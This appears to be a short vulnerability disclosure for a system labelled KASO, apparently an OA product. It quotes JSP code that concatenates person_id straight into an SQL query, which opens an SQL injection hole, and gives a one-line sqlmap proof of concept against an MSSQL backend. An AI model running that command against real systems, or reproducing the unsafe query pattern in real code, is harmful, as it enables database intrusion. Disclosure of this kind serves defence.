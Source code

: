 # KASO-SQL


Impact Code

    <%}
    rs.close();
      sql = "select a.classid,a.name,b.popedom from oa_cardclass a,oa_card_popedom b where a.classid=b.classid and b.person_id='"+person_id+"'";  
      rs=DBmenu.executeQuery(sql); 
    %>


poc:
python sqlmap.py -m ./1.txt  --random-agent --dbms=mssql --current-user

![Uploading image.png…]()

